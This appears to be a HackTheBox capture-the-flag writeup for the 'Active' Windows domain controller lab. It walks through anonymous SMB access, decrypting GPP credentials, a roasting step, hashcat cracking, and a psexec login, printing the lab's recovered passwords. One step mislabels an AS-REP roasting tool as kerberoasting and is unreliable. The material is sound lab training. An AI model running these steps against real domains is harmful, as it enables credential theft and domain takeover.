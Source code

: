 ```yaml
---
title: "Active - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Active
![](https://kar0nx.github.io/assets/images/writeup/5837ac5e28291146a9f2a8a015540c28.webp)
## Reconnaissance

IP: 10.10.10.100
## NMAP

```
nmap -T4 -p- -A 10.10.10.100
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 06:01 UTC
Nmap scan report for 10.10.10.100
Host is up (0.030s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 06:02:11Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/29%OT=53%CT=1%CU=36017%PV=Y%DS=2%DC=T%G=Y%TM=68B142A
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=
OS:7)SEQ(SP=101%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=108%GCD=1%ISR
OS:=109%TI=I%CI=I%II=I%SS=S%TS=7)SEQ(SP=108%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS
OS:=S%TS=7)SEQ(SP=109%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=7)OPS(O1=M552NW8
OS:ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M55
OS:2ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T
OS:=80%W=2000%O=M552NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T
OS:2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=8
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%
OS:Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-29T06:03:20
|_  start_date: 2025-08-29T05:58:52
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: -2s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.46 ms 10.10.14.1
2   29.95 ms 10.10.10.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.96 seconds
```

AD set without website, so I would start with SMB
## SMB

We can login with anonymous access and get files for future enumeration

```
smbclient \\\\10.10.10.100\\Replication
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829080825.webp)

We can simply login to smbclient and type: (to get all files)

```
recurse ON
prompt OFF
mget *
```

I found Interesting file Groups.xml in Preferences\Groups it is GPP Credentials

```
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829081547.webp)

After opening Groups.xml and copy cpassword hash, simply use builtin tool gpp-decrypt to decrpyt password

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082100.webp)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082148.webp)

active.htb\SVC_TGS  GPPstillStandingStrong2k18

## Gaining Access

We can confirm credentials using nxc:

```
nxc smb 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082450.webp)

## Privilege Escalation

Whenever I come across an SVC user, I usually start by attempting a kerberoasting attack.
and this time it was no different

```
impacket-GetNPUsers active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829082815.webp)

Now using hashcat crack this hash.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829083037.webp)

Administrator  Ticketmaster1968
Great now we have administrator access, can connect via psexec and grab both flags:

```
impacket-psexec active.htb/Administrator:'Ticketmaster1968'@10.10.10.100
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250829083654.webp)

```
type "C:\Users\SVC_TGS\Desktop\user.txt"
type "C:\Users\Administrator\Desktop\root.txt"
```